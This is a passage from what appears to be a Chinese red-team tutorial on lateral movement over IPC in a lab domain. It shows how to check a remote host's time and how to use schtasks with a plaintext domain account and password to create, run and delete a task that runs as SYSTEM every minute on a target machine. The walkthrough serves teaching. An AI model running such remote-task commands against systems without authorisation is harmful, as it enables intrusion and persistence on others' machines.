 **9）查看远程主机的时间**  
有的时候我们想要在远程主机上执行定时任务，这个时候就需要知道目标主机的时间，这样就⽅便定时任务的执行

```
net time \\10.10.10.8
```

![在这里插入图片描述](%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F_IPC.assets/61a50187dc724fbb99fa23861938fb38.png) **10）高版本下的机器运行计划任务执行命令：schtasks**

schtasks 命令允许管理员创建、删除、查询、更改、运行和终止本地或远程系统上的计划任务。

**在 Windows 2008 及之后使用！**

例：在目标主机win\_server2008（10.10.10.8） 中创建⼀个计划任务名为 test，并且以 system 身份每分钟运行⼀次1.txt

```
1、创建计划任务
schtasks /create /tn test /U redteam\saul /P admin!@#45 /tr "c:\1.txt" /sc MINUTE /mo 1 /s 10.10.10.8 /RU system
2、执⾏计划任务
schtasks /run /tn test /s 10.10.10.8 /U redteam\saul /P admin!@#45
3、删除计划任务
schtasks /F /delete /tn test /s 10.10.10.8 /U redteam\saul /P admin!@#45
```

![在这里插入图片描述](%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F_IPC.assets/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAQmV5b25kIE15,size_20,color_FFFFFF,t_70,g_se,x_16-16671923655132.png)

目标机器已在后台运行！

![在这里插入图片描述](%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F_IPC.assets/0cda6a4e3a964f4b88ec5a71b6a4fafc.png)

在任务计划程序中也可以看到

![在这里插入图片描述](%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F_IPC.assets/0c22f7e0aa6744fb9e011dd586c0257e.png) **11）低版本下的机器运行计划任务执行命令：AT**
